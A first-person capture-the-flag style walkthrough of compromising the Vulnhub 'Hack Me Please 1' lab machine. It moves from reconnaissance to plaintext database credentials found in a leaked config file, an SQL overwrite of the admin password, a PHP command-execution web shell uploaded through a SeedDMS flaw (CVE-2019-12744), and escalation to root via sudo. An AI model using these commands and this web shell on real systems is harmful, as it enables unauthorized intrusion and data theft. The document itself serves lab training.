# Hack Me Please 1 is an easy OSCP black box like from Vulnhub

## The objectif of this vulnerable virtual machine is to gain root privilege

> **NOTE:**
> My kali machine and the OSCP Box are both in the same LAN within VirtualBox with DCHCP Server enabled.

First i tried to figure out which ip address is assigned to my kali machine using the command :

```bash
ip a
```




To find out the ip address of the oscp box i used the following command :

```bash
sudo netdiscover -i eth0 -r 192.168.57.0/24
```




The ip address finishing with 100 is the dhcp server which means that the other one corresponds to the oscp box.
Now that we know the ip address of our target, we will scan it using nmap to do some active reconnaissance to gather informations about services running on it. I have set some option on the command to scan for all ports, to scan also for the version of the services and to run some default nse scripts.

```bash
nmap -sV -sC 192.168.57.103
```

The result shows us that there is a web server Apache running on it with a MySQL Database.



I visited the website seeking for something interesting. All the section are just some text but the contact section is a form maybe there could be something there.



I used burp suite to try to intercept the http response for something on the header that i could use but nothing, same for using the developper tools i didn't find any interesting informations.



Let's do some directories enumeration using feroxbuster which is like dirbuster but written in Rust and blazzingly fast. I have used some lists of the Web-Content directory within the SecList.



There is no wierd url or some kind of path that will disclose administrative things but there is some javascript file which can eventually have some unprotected functionnalities or hidden url or path. Let's check them out ! Yay ! I have found a kind of path on the main.js file.



I tried this out and it works !!! It shows us a Seed DMS page which is a kind of document management system as define on the web page.



Seeing it is a form i tried to add a single quote to the input to see if an error message will appear which means that theses input are vulnerable to sql injection, but it seems that is not the case. I tried also some directories enumeration with the new url but the only thing that take my attention is the WebDav directory which if a remember is a protocol used to add remove or modify files on a server remotely. I tried some basic credential like __admin:admin, admin:passw0rd!, seed:seed or root:root__ but unfornately it didn't work.



Maybe i need to brute force it, i used the logon brute forcer hydra with the rockyou password list with a list of username from the seclist. But seems like it's not worth it.

```bash
sudo hydra -L /usr/share/wordlists/seclist/Username/cirt-default-usernames.txt -P /usr/share/wordlists/rockyou.txt -u http-get://192.168.57.103/seeddms51.x/seeddms-5.1.22/webdav
```

So i tried to document myself about the architecture of the program and where the config files are. I find out that there is a config file named __settings.xml.template__ within a directory named __conf__. Which means if their is a template of that file there is also the original which it is used while using the system and most of the time it the same name with the template but without the __template__ word  at the end. So first i tried the path __/seeddms51.x/seeddms-5.1.22/settings.xml.template__, didn't work so i tried the other path __/seeddms51.x/settings.xml.template__. This one works, through scrolling to that page i find out credential in plain text for the MySql database.



There is a cli on linux to access a mysql database. So i used the __help__ option to find which arguments i need to use to connect remotely.

```bash
mysql -p seeddms -D seeddms -u seeddms -h 192.168.57.103 --skip-ssl
```



First i used the following command to show the tables this database contains where i found two interesting tables.

```sql
show tables;
```



Showing the content of the tables using the following command i have found the login and the password of the administrator.

```sql
SELECT * FROM tblUsers;
```



```sql
SELECT * FROM users;
```



Let's try to get the hash type. This hash could be a MD2 MD4 or MD5.



I tried to crack it using hashcat switching differents hash modes and also differents wordlists from the Seclist but no result, i tried a brute force cracking which set the program to make combination of letters, digits and special characteres to craft random password after waiting so long a decided to stop the process.

I used another approach so instead of trying to crack the password why not replace it by another password made by me. For that a used the following query on the cli prompt.

```sql
UPDATE tblUsers SET pwd="6c809a7f4c9033948af2075d38645c7c" WHERE login="admin";
```



We finally logged in. As show in the figure above we can add or upload a document which means there is possibly a chance that files are not validated.



I litteraly "googled" __seeddms exploit__ to search for possible exploits for this system, and find out an exploit from __exploi_db__ which takes advantage of the __CVE-2019-12744__. This vulnerability allows remote code execution on seeddms versions before 5.1.11 because of __unvalidated file upload.__ Even though our version is 5.1.22 we will try to see if it still works on it.





So i used the simple php backdoor given by the exploit. After clicking add it shows me a internal error, i come back to the dashboard and the file was uploaded. So they didn't patch the vulnerability with this new version released ????

```php
<?php
if(isset($_REQUEST['cmd'])){
        echo "<pre>";
        $cmd = ($_REQUEST['cmd']);
        system($cmd);
        echo "</pre>";
        die;
}
?>
```



As set on the exploit, i need to check the document id which is 5 for my case and after that i use the following path :

```
/data/1048576/"document_id"/1.php?cmd="the_command"
```

The directory data/1048576 is where uploaded files are saved.



It works now let's search for a php reverse shell on the internet.



I changed some values like the ip to match my kali machine and the port also.



After doing the same process as the test.php file i finally get the reverse shell. Unfortunately the shell for the __www-data__ user is a non interactive shell which is very limited.



Let see first if there is a python binaries with the command following command :

```bash
which python3
```

There is a one line command which help to get a bash shell.

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```



Through the /etc/passwd file i find out that there is a user in the operating system named __sacket__ which also exist in the mysql table named __users__ and also followed by a password. 



So let's try to switch user using the following command

```bash
su sacket
```

Yay ! It works, first we will see what kind of program i can run with sudo. It seems like a can run any program as any user and any groups with that.



So to get root without the need to have the root password, i just used the following command, this happens due to a misconfiguration of the sudoers files as show above with the user __sakat__ i can run any command with sudo which grant me temporary root privilege or the su command check which user is running it if it is root __su__ won't ask for the user password to which we are trying to switch :

```bash
sudo su
```



